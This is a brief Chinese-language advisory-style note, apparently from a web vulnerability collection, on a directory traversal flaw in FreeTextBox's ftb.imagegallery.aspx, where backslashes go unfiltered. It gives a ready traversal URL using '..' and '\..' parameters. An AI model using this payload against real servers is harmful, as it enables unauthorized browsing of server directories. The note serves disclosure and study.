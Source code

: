 ## Freetextbox

### Freetextbox遍历目录漏洞

影响版本：未知
脆弱描述：
因为ftb.imagegallery.aspx代码中 只过滤了/但是没有过滤\符号所以导致出现了遍历目录的问题。
攻击利用:
在编辑器页面点图片会弹出一个框（抓包得到此地址）构造如下，可遍历目录。
http://127.0.0.1/Member/images/ftb/HelperScripts/ftb.imagegallery.aspx?frame=1&rif=..&cif=\..
